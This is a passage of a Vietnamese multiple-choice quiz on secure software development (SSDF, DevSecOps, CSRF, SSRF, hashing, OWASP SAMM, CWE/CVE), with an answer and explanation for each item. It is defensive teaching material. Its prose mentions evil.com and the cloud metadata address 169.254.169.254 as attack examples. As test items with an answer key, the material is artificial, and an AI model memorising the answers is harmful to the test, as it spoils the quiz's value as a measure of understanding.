- B. Software Bill of Materials — danh sách tất cả thành phần phần mềm trong sản phẩm
- C. Standard Build Operations Method
- D. Secure Binary Output Model

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    **SBOM** (Software Bill of Materials) = danh sách khai báo tất cả thành phần, thư viện, dependency có trong phần mềm, kèm version và license. SSDF khuyến nghị chia sẻ SBOM như **provenance data** (PS 3.2) để đối tác/khách hàng biết phần mềm gồm những gì, dễ kiểm tra khi có CVE mới.

---

**Câu 28.** SSDF của NIST gồm bao nhiêu nhóm Practice chính?

- A. 3
- B. 4
- C. 5
- D. 7

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    SSDF gồm **4 nhóm**: **PO** - Prepare the Organization (5 practices), **PS** - Protect the Software (3 practices), **PW** - Produce Well-Secured Software (9 practices), **RV** - Respond to Vulnerabilities (3 practices). Tổng cộng 20 practices.

---

**Câu 29.** DevSecOps là gì?

- A. DevOps chỉ dành cho công ty bảo mật
- B. Tích hợp Security vào toàn bộ pipeline DevOps, không phải chỉ ở cuối vòng đời
- C. Một công cụ kiểm thử bảo mật tự động
- D. Phương pháp thay thế cho Agile

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    DevSecOps = **Dev**elopment + **Sec**urity + **Op**erations. Security không phải "add-on" ở cuối mà là **shared responsibility** của cả team, được tích hợp vào mọi giai đoạn: plan → code → build → test → release → deploy → monitor.

---

**Câu 30.** Trong CI/CD, "Continuous Inspection" có nghĩa là gì?

- A. Developer kiểm tra code của nhau hàng ngày
- B. Tự động chạy security scan (SAST, DAST, dependency check) trong pipeline như một bước bắt buộc
- C. Quản lý giám sát hệ thống production 24/7
- D. Review code bằng AI

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Continuous Inspection = tự động hóa kiểm tra bảo mật trong pipeline CI/CD. Gồm: SAST (SonarQube, SpotBugs), DAST (OWASP ZAP), Dependency Analysis (OWASP Dependency Check), Container Scanning (Anchore Engine). Mỗi commit đều bị kiểm tra tự động.

---

**Câu 31.** CSRF là gì và cơ chế tấn công hoạt động như thế nào?

- A. Kẻ tấn công inject script vào trang web để đánh cắp cookie
- B. Kẻ tấn công lừa trình duyệt của nạn nhân (đang đăng nhập) gửi request độc hại đến web app mà nạn nhân tin tưởng
- C. Kẻ tấn công chèn SQL vào form đăng nhập
- D. Kẻ tấn công giả mạo server để lấy thông tin đăng nhập

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    CSRF (Cross-Site Request Forgery): nạn nhân đang đăng nhập vào bank.com, click vào link độc hại từ evil.com. Link đó gửi request đến bank.com (kèm cookie hợp lệ của nạn nhân) để thực hiện chuyển tiền. Bank.com tưởng request từ nạn nhân nên thực hiện. Phòng tránh: CSRF token, SameSite cookie.

---

**Câu 32.** Biện pháp chính để phòng tránh CSRF là gì?

- A. Mã hóa toàn bộ database
- B. Sử dụng HTTPS
- C. CSRF Token (synchronizer token pattern) + SameSite cookie attribute
- D. Rate limiting đăng nhập

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    CSRF Token: server tạo token ngẫu nhiên, nhúng vào form, verify khi submit. Kẻ tấn công không biết token nên không thể forge request hợp lệ. **SameSite=Strict/Lax** cookie ngăn browser gửi cookie khi request đến từ site khác. Kiểm tra Origin/Referer header cũng là biện pháp bổ sung.

---

**Câu 33.** SSRF (Server-Side Request Forgery) nguy hiểm vì lý do gì?

- A. Cho phép kẻ tấn công đọc source code của server
- B. Cho phép kẻ tấn công lợi dụng server để truy cập các tài nguyên nội bộ mà từ internet không thể truy cập trực tiếp
- C. Cho phép kẻ tấn công thay đổi database
- D. Cho phép kẻ tấn công giả mạo IP

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Trong SSRF, kẻ tấn công gửi URL độc hại đến web app (ví dụ URL trỏ vào `http://169.254.169.254/metadata` — AWS instance metadata). Web app fetch URL đó từ phía server, nơi có thể truy cập internal services, metadata endpoints, internal APIs... mà từ internet không thể vào trực tiếp.

---

**Câu 34.** Insecure Deserialization có thể dẫn đến hậu quả nghiêm trọng nhất là gì?

- A. Mất dữ liệu database
- B. Remote Code Execution (RCE) — kẻ tấn công thực thi code tùy ý trên server
- C. Tấn công từ chối dịch vụ
- D. Lộ password của admin

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Insecure Deserialization: kẻ tấn công thay thế dữ liệu đã serialize bằng payload độc hại. Khi server deserialize, payload được xử lý và có thể dẫn đến **RCE** — kẻ tấn công thực thi lệnh tùy ý trên server. Đây là lý do tại sao không bao giờ deserialize dữ liệu từ nguồn không tin cậy.

---

**Câu 35.** Race condition trong bảo mật phần mềm xảy ra khi nào?

- A. Phần mềm chạy quá nhanh so với phần cứng
- B. Kết quả của chương trình phụ thuộc vào thứ tự/thời điểm thực thi của các thread mà không được đồng bộ hóa, kẻ tấn công có thể lợi dụng khoảng thời gian giữa kiểm tra và thực hiện
- C. Server bị quá tải do nhiều request đồng thời
- D. Database bị lock khi nhiều user cùng truy cập

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Race condition kinh điển: **TOCTOU (Time-of-Check to Time-of-Use)** — kiểm tra điều kiện (check) và thực hiện hành động (use) là hai bước riêng. Kẻ tấn công chen vào giữa hai bước để thay đổi trạng thái. Ví dụ: hệ thống kiểm tra số dư đủ → kẻ tấn công rút từ nơi khác → hệ thống trừ tiền dù số dư không đủ.

---

**Câu 36.** PII là viết tắt của gì và tại sao quan trọng trong security requirements?

- A. Private IP Information — thông tin địa chỉ IP nội bộ
- B. Personally Identifiable Information — thông tin có thể nhận dạng cá nhân, cần bảo vệ đặc biệt theo luật (GDPR...)
- C. Public Internet Infrastructure — cơ sở hạ tầng internet công khai
- D. Password Identity Index — chỉ số độ mạnh của mật khẩu

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    **PII** (Personally Identifiable Information): thông tin có thể dùng để nhận dạng một cá nhân — họ tên, CCCD, số điện thoại, email, địa chỉ, thông tin y tế, tài khoản ngân hàng... Đây là một trong những câu hỏi đầu tiên khi xác định security requirements: "Hệ thống có chứa PII không?"

---

**Câu 37.** "Hash và salt mật khẩu" có nghĩa là gì và tại sao cần cả hai?

- A. Mã hóa mật khẩu bằng AES, salt là khóa mã hóa
- B. Hash: biến mật khẩu thành chuỗi một chiều; Salt: thêm chuỗi ngẫu nhiên vào trước khi hash để ngăn rainbow table attack
- C. Hash: nén mật khẩu; Salt: thêm ký tự đặc biệt vào mật khẩu
- D. Cả hai đều là cách mã hóa đối xứng khác nhau

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    **Hash** (bcrypt, Argon2, scrypt): biến đổi một chiều, không thể reverse về mật khẩu gốc. **Salt**: chuỗi ngẫu nhiên duy nhất cho mỗi user, thêm vào trước khi hash. Tại sao cần salt? Vì nếu không có salt, hai user dùng cùng mật khẩu sẽ có cùng hash → dễ bị **rainbow table attack**. Với salt khác nhau, cùng mật khẩu sẽ cho hash khác nhau.

---

**Câu 38.** "Fail safe" trong error handling có nghĩa là gì?

- A. Khi có lỗi, hệ thống tự động khởi động lại
- B. Khi có lỗi, hệ thống về trạng thái an toàn (từ chối truy cập, không để lộ thông tin) thay vì để lỗi dẫn đến lỗ hổng
- C. Hệ thống không bao giờ có lỗi
- D. Khi có lỗi, hệ thống thông báo chi tiết cho user để debug

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Fail safe = khi exception/error xảy ra, hệ thống **không cấp quyền truy cập mặc định** và **không lộ thông tin nhạy cảm**. Ví dụ sai: nếu auth service lỗi → cho phép truy cập (fail open — nguy hiểm). Đúng: nếu auth service lỗi → từ chối truy cập (fail safe). Stack trace chi tiết không được hiển thị cho user cuối.

---

**Câu 39.** OWASP SAMM là gì?

- A. Công cụ quét lỗ hổng tự động
- B. Software Assurance Maturity Model — framework đánh giá và cải thiện chương trình bảo mật phần mềm của tổ chức
- C. Danh sách Top 10 lỗ hổng web
- D. Phương pháp kiểm thử penetration

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    **OWASP SAMM** (Software Assurance Maturity Model): framework mở để hình thành và hiện thực chiến lược bảo mật phần mềm. 5 Business Functions: Governance, Design, Implementation, Verification, Operations. Giúp tổ chức **đánh giá mức độ trưởng thành** bảo mật hiện tại và lập kế hoạch cải thiện.

---

**Câu 40.** Trong OWASP SAMM, 5 Business Functions là gì?

- A. Plan, Code, Build, Test, Deploy
- B. Governance, Design, Implementation, Verification, Operations
- C. Requirements, Threat Modeling, Secure Coding, Testing, Monitoring
- D. Confidentiality, Integrity, Availability, Authentication, Authorization

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    OWASP SAMM 5 Business Functions: **Governance** (quản trị), **Design** (thiết kế — threat assessment, security architecture), **Implementation** (lập trình an toàn, dependency), **Verification** (kiểm thử, architecture validation), **Operations** (quản lý incident, patching, hardening).

---

**Câu 41.** "Zero Trust" / "Never Trust, Always Verify" áp dụng như thế nào trong Secure Design?

- A. Không cấp quyền cho bất kỳ user nào
- B. Luôn xác thực và kiểm tra quyền tại mọi điểm trong hệ thống, kể cả request từ bên trong mạng nội bộ
- C. Chỉ tin tưởng request từ IP nội bộ
- D. Yêu cầu user đăng nhập lại mỗi 5 phút

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Zero Trust: không có "vùng tin tưởng" — kể cả traffic từ trong mạng nội bộ cũng phải được xác thực và ủy quyền. Mọi request đều phải prove identity và quyền. "Assume Breach" — giả định hệ thống đã bị xâm nhập, thiết kế để giảm thiểu lateral movement.

---

**Câu 42.** Server-Side Validation quan trọng hơn Client-Side Validation vì lý do gì?

- A. Server-side nhanh hơn client-side
- B. Client-side validation có thể bị bypass hoàn toàn bằng cách chỉnh sửa request trực tiếp, chỉ có server-side validation mới thực sự bảo vệ được
- C. Client-side validation tốn nhiều tài nguyên server hơn
- D. Không, client-side validation đủ rồi

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Client-side validation (JavaScript): dễ bypass bằng cách dùng Burp Suite, curl, hoặc disable JavaScript. Kẻ tấn công không cần dùng browser để gửi request. **Server-side validation là bắt buộc** vì server kiểm soát hoàn toàn. Client-side chỉ là UX improvement, không phải bảo mật.

---

**Câu 43.** "Multi-Factor Authentication (MFA)" bổ sung lớp bảo vệ nào so với chỉ dùng mật khẩu?

- A. Mã hóa mật khẩu mạnh hơn
- B. Yêu cầu thêm yếu tố xác thực thứ hai (something you have / something you are) ngoài mật khẩu, ngay cả khi mật khẩu bị lộ vẫn không đăng nhập được
- C. Mật khẩu phức tạp hơn bắt buộc
- D. Giới hạn số lần đăng nhập sai

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    MFA kết hợp ít nhất 2 trong 3 yếu tố: **Something you know** (mật khẩu), **Something you have** (OTP token, phone, hardware key), **Something you are** (fingerprint, face ID). Kể cả khi attacker có mật khẩu (qua phishing, data breach), họ vẫn không đăng nhập được nếu không có yếu tố thứ hai.

---

**Câu 44.** Điều gì xảy ra với chi phí sửa lỗi khi phát hiện lỗ hổng càng muộn trong SDLC?

- A. Chi phí giảm dần vì team đã có kinh nghiệm hơn
- B. Chi phí tăng dần đáng kể, từ ~$10 ở giai đoạn Requirements đến "Significantly More" ở giai đoạn Incident Response
- C. Chi phí không thay đổi nhiều
- D. Chi phí tăng nhưng chỉ ở giai đoạn Testing

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Theo mô hình SDLC cost: Requirements ~$10 → Design ~$100 → Code ~$1,000 → Testing cao hơn → Incident Response "Significantly More". Vì sửa lỗi muộn phải: thay đổi architecture đã xây, retest toàn bộ, có thể đã có dữ liệu bị ảnh hưởng, thiệt hại uy tín, chi phí pháp lý, thông báo khách hàng...

---

**Câu 45.** Trong "Security Requirement" của web application, "chỉ cho phép truy cập qua HTTPS" giải quyết vấn đề bảo mật nào?

- A. SQL Injection
- B. XSS
- C. Man-in-the-Middle Attack — ngăn kẻ tấn công nghe lén và sửa đổi traffic giữa client và server
- D. Brute force mật khẩu

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    HTTPS (HTTP + TLS/SSL) mã hóa toàn bộ traffic, ngăn MitM attack. Nếu chỉ dùng HTTP, kẻ tấn công có thể đọc mật khẩu, session cookie, dữ liệu nhạy cảm... Redirect HTTP → HTTPS và dùng **HSTS** (HTTP Strict Transport Security) header để buộc browser luôn dùng HTTPS.

---

**Câu 46.** Anchore Engine là công cụ dùng để làm gì trong pipeline CI/CD?

- A. Phân tích mã nguồn Java
- B. Kiểm tra tính an toàn của Docker container image, phát hiện CVE trong image
- C. Kiểm thử penetration tự động
- D. Quản lý secret và API key

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    **Anchore Engine**: mã nguồn mở, kiểm tra và chứng nhận **Docker container image**. Phân tích image để phát hiện CVE trong OS packages, libraries. Chạy dưới dạng Docker container, tích hợp với Kubernetes, Docker Swarm, Rancher, Amazon ECS. Quan trọng trong pipeline DevSecOps khi dùng container.

---

**Câu 47.** White Box Testing khác Black Box Testing như thế nào trong kiểm thử bảo mật?

- A. White Box dùng công cụ tự động, Black Box dùng thủ công
- B. White Box: tester có access vào source code/kiến trúc nội bộ; Black Box: tester không biết cấu trúc bên trong, tiếp cận như attacker từ ngoài
- C. White Box chỉ kiểm tra giao diện, Black Box kiểm tra logic
- D. White Box chậm hơn, Black Box nhanh hơn

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    **White Box**: tester có source code, architecture diagram, có thể tìm lỗi logic ẩn, code path ít dùng. Phù hợp cho code review, SAST. **Black Box**: tester chỉ thấy input/output như attacker thật, phát hiện lỗi bề mặt, auth bypass, business logic lỗi. Thực tế thường dùng **Grey Box** — kết hợp cả hai.

---

**Câu 48.** "Application Partitioning" trong Secure Design Concepts có ý nghĩa gì?

- A. Chia ổ cứng server thành nhiều partition
- B. Chia ứng dụng thành các module/service nhỏ với ranh giới rõ ràng, giảm thiểu blast radius khi một phần bị compromise
- C. Tạo nhiều bản sao ứng dụng để load balancing
- D. Phân chia công việc giữa các developer

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Application Partitioning = phân tách ứng dụng thành các thành phần có ranh giới bảo mật rõ ràng. Ví dụ: tách public API và admin API, tách payment service khỏi catalog service. Nếu một phần bị tấn công, kẻ tấn công không tự động có quyền truy cập toàn bộ hệ thống (liên quan đến Least Privilege và Zero Trust).

---

**Câu 49.** Trong SSDF, nhóm "Respond to Vulnerabilities" (RV) bao gồm những hoạt động nào?

- A. Viết code an toàn và review code
- B. Thiết lập vulnerability disclosure program, theo dõi CVE database, có response playbook, ghi lại root cause, phân phối patch với tự động hóa
- C. Đào tạo developer về secure coding
- D. Thiết lập CI/CD pipeline

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    **RV - Respond to Vulnerabilities** gồm: Thiết lập **vulnerability disclosure program** (nhận báo cáo từ researcher bên ngoài), monitor vulnerability databases (NVD, CVE...), có **security response playbook** sẵn sàng, ghi lại root cause để phân tích và cải tiến dài hạn, phân phối remediations với tự động hóa.

---

**Câu 50.** Công cụ "OWASP Threat Dragon" tuân theo tài liệu nào và có đặc điểm gì?

- A. Tuân theo OWASP Top 10, chỉ chạy trên Windows
- B. Tuân theo Threat Modeling Manifesto, là công cụ mã nguồn mở của OWASP để vẽ threat model diagram trong SSDLC
- C. Tuân theo NIST SSDF, là công cụ thương mại
- D. Tuân theo STRIDE duy nhất, không hỗ trợ phương pháp khác

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    **OWASP Threat Dragon**: mã nguồn mở, tuân theo **Threat Modeling Manifesto** (threatmodelingmanifesto.org). Dùng để tạo threat model diagram trong SSDLC. Chạy dưới dạng web app hoặc desktop app. Kết hợp với OWASP Threat Modeling Cheat Sheet tại cheatsheetseries.owasp.org.

---

**Câu 51.** Tại sao "hardcode" thông tin nhạy cảm (API key, password) vào source code là nguy hiểm?

- A. Làm chậm hiệu suất ứng dụng
- B. Bất kỳ ai có quyền đọc source code (developer, contractor, người tìm được repo leak) đều có thể lấy được credentials, và credentials không thể rotate mà không sửa code
- C. Source code sẽ không compile được
- D. Vi phạm cú pháp lập trình

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Hardcoded credentials trong source code: nếu code bị lộ (GitHub public repo, insider threat, breach), attacker có ngay credentials. Khó rotate vì phải sửa code, build, deploy lại. Credentials thường tồn tại mãi trong git history ngay cả sau khi "xóa". Giải pháp: dùng environment variables hoặc secret management system.

---

**Câu 52.** Trong Security Requirements, "Input Validation và Sanitization" khác nhau như thế nào?

- A. Chúng hoàn toàn giống nhau
- B. Validation: kiểm tra input có đúng định dạng mong đợi không (reject nếu sai); Sanitization: làm sạch/encode input để loại bỏ ký tự nguy hiểm trước khi xử lý
- C. Validation dùng cho SQL, Sanitization dùng cho HTML
- D. Sanitization kiểm tra, Validation làm sạch

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    **Validation**: kiểm tra input theo whitelist/schema — email phải đúng format, số điện thoại chỉ chứa số, tên chỉ chứa chữ cái. Nếu sai → reject hoàn toàn. **Sanitization**: với input được chấp nhận, encode hoặc escape các ký tự đặc biệt phù hợp với ngữ cảnh sử dụng (HTML entity encoding, SQL escaping...). Cả hai cần thiết và bổ sung cho nhau.

---

**Câu 53.** CWE (Common Weakness Enumeration) là gì và khác CVE như thế nào?

- A. Chúng hoàn toàn giống nhau
- B. CWE: danh sách các điểm yếu/lỗi trong code (loại lỗ hổng, ví dụ: SQL Injection là một loại CWE); CVE: danh sách các lỗ hổng cụ thể đã được tìm thấy trong phần mềm thực tế
- C. CVE do OWASP quản lý, CWE do NIST quản lý
- D. CWE cho hardware, CVE cho software

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    **CWE** (MITRE): phân loại **loại điểm yếu** trong code — CWE-89 là SQL Injection (loại lỗi), CWE-79 là XSS... Dùng để giáo dục và phân loại. **CVE** (MITRE/NVD): mỗi CVE là một **lỗ hổng cụ thể** trong một phần mềm/version cụ thể — CVE-2021-44228 là lỗ hổng Log4Shell trong Log4j 2.x. CVE thường có CWE type kèm theo.

---

**Câu 54.** Trong quy trình Security Requirements, câu hỏi "Hệ thống cần đảm bảo tính sẵn sàng ở mức độ nào (99.9%, 99.99%...)?" liên quan đến yếu tố nào trong CIA?

- A. Confidentiality
- B. Integrity
- C. Availability
- D. Authentication

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    **Availability** trong CIA = hệ thống phải hoạt động khi cần. Câu hỏi về uptime (99.9% = downtime ~8.7 giờ/năm; 99.99% = ~52 phút/năm) giúp xác định mức độ đầu tư vào redundancy, DDoS protection, failover... Không phải mọi hệ thống đều cần uptime cực cao — cần xác định rõ yêu cầu.

---

**Câu 55.** Tại sao cần "Re-authentication for Transactions" trong Secure Design?

- A. Để kiểm tra mật khẩu không bị quên
- B. Để xác nhận người đang thực hiện giao dịch quan trọng chính là chủ tài khoản (ngăn CSRF và session hijacking cho giao dịch nhạy cảm)
- C. Vì session tự động hết hạn sau mỗi giao dịch
- D. Để tăng tốc độ xử lý giao dịch

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Re-authentication = yêu cầu xác thực lại (nhập mật khẩu, OTP...) trước các giao dịch quan trọng như: chuyển tiền lớn, đổi email/mật khẩu, xóa tài khoản. Ngăn: **CSRF** (kẻ tấn công không biết mật khẩu để forge), **Session hijacking** (kẻ chiếm session không làm được giao dịch quan trọng). Đây là nguyên lý trong Secure Design Concepts.
